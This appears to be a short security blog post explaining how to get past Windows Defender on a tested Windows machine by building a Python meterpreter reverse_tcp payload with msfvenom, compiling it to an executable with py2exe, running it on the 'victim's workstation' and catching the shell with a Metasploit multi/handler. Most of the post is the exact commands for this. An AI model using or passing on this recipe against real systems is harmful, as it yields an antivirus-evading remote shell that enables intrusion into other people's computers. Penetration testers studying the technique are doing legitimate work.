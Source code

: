 ```yaml
---
published: true
layout: post
categories: articles
tags:
  - python
  - rev_shell
  - meterpreter
  - windows
---
```


# Summary
{:.no_toc}

* toc
{:toc}

# Introduction

So, the situation, it is possible to download a file to a machine that is being tested as part of a Pentest or other legitimate activity in Windows, and it is even possible to execute it. If we are talking about the latest, tenth version of the OS, then we will run into its Windows Defender, and the likelihood of stumbling upon an antivirus is great. In such a situation, a very convenient and expandable meterpreter will not work, what is the alternative?

## Python
{:id="python"}

Here is the answer. Using Python in conjunction with metasploit and msfvenom allows us to get a decent alternative to the classic meterpreter with most of its convenient features. However we will have to sacrifice some features, it will not be possible to use such commands as getsystem and it will not be possible to migrate to the process.


# Let's start

The general scheme is as follows: we generate the python code using msfvenom, feed it to py2exe, launch the binary on the victim machine and catch the session.
<br><br>
First, install py2exe under version 3.4, since everything above is not supported.
~~~
pip install py2exe
~~~
Or, if you like updating like i do:
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Next, create the .py code:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

It is necessary to add "import getpass" to the code, which for some reason does not do the default msfvenom.

<br><br>


Make the .exe file:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


And run it on the victim's workstation preliminarily launch handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

And we get the command shell:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Conclusion
{:id="end"}

A simple and effective way to combat Windows Defender if you do not want to lose the convenient and familiar meterpreter functionality in favor of more native solutions, such as ssh or telnet.
<br><br>
